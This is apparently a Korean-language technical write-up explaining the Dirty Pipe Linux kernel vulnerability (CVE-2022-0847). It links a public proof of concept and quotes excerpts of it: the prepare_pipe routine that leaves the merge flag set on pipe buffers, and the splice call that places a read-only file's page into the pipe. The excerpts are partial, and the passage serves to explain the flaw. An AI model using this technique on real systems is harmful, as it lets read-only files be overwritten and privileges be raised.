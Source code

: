 # PoC

PoC는 <a href="https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit">여기</a>에서 확인할 수 있습니다.

먼저 공격에 사용할 파이프와 파이프 버퍼의 플래그를 설정하는 `prepare_pipe` 함수의 일부입니다.
```c
/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
  ...

	/* fill the pipe completely; each pipe_buffer will now have
	   the PIPE_BUF_FLAG_CAN_MERGE flag */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		write(p[1], buffer, n);
		r -= n;
	}

	/* drain the pipe, freeing all pipe_buffer instances (but
	   leaving the flags initialized) */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		read(p[0], buffer, n);
		r -= n;
	}

	/* the pipe is now empty, and if somebody adds a new
	   pipe_buffer without initializing its "flags", the buffer
	   will be mergeable */
}
```

파이프를 만들고 모두 비움으로써 모든 파이프 버퍼의 플래그를 `PIPE_BUF_FLAG_CAN_MERGE`로 설정합니다.

이렇게 만들어지는 공격용 파이프는 `main` 함수에서 다음과 같이 사용됩니다.
```c
int main() {
  ...

	const int fd = open(path, O_RDONLY); // yes, read-only! :-)

  ...

  	/* create the pipe with all flags initialized with
	   PIPE_BUF_FLAG_CAN_MERGE */
	int p[2];
	prepare_pipe(p);

	/* splice one byte from before the specified offset into the
	   pipe; this will add a reference to the page cache, but
	   since copy_page_to_iter_pipe() does not initialize the
	   "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
	--offset;
	ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);

  ...
}
```
`splice` 시스템 콜을 통해 file → pipe 형태의 연산으로 파이프에 읽기 전용 파일에 대한 참조가 생성됩니다.
